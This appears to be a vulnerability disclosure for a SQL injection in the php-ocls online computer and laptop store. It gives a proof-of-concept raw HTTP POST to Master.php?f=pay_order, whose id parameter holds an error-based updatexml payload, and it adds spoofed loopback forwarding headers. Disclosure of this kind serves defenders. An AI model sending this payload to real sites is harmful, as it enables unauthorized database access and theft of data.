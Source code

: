 # php-ocls<=v1.0 Authenticated unauthorized SQL injection

## Description

    php-ocls<=v1.0 /php-ocls/classes/Master.php interface has unauthorized SQL injection vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. /php-ocls/classes/Master.php?f=pay_order SQL injection exists for parameter id

   ```
   POST /php-ocls/classes/Master.php?f=pay_order HTTP/1.1
   Host: 172.20.10.166:8080
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   x-forwarded-for: 127.0.0.1
   x-originating-ip: 127.0.0.1
   x-remote-ip: 127.0.0.1
   x-remote-addr: 127.0.0.1
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 55
   
   id=1'and updatexml(1,concat(0x7e,(database()),0x7e),1)#
   ```
   
   | ![image-20240816172147822](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20Sqli.assets/image-20240816172147822.png) |
   | ------------------------------------------------------------ |
   
   
